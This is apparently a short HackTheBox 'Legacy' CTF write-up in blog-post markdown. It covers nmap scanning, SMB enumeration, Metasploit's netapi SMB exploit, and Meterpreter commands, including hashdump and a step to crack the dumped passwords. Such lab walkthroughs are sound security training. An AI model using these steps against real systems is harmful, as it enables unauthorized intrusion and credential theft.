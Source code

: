 ```yaml
---
layout: post
title:  HTB Legacy Writeup
subtitle: HackTheBox 
cover-img: /assets/img/path.jpg
tags: [Pentesting, Vulnerability Assessment, CTF, NMAP, Meterpreter]
---
```


#### Differnce between TCP and SYN scan

TCP scan 
 ```
 SYN 
 ACK+SYN
 ACK
```

SYN scan
```
SYN 
ACK+SYN
RST
```

#### Running NMAP

nmap -A -T4 -p- <i.p>
   •  Port 139, 445  open
      ◇ smbclient -L \\<ip>\
      ◇ enum4linux -a <ip>[ optional ]

⇒ msfconsole
   • search smb_version
      ◇  We dont't know the smb version here, so checked rapid7 website and got netapi
      ◇  search netapi
           • use 1 
           • set rhosts <ip>, <ip>/24
           • run/exploit

#### Meterpreter commands - 
   • getuid
   • sysinfo
   • help(optional)
   • hashdump
   • shell
      ◇ Will redirect to System32 
⇒ Crack the passwords


#### For detailed explanation : [Another approach](https://medium.com/@ranakhalil101/hack-the-box-legacy-writeup-w-o-metasploit-2d552d688336)



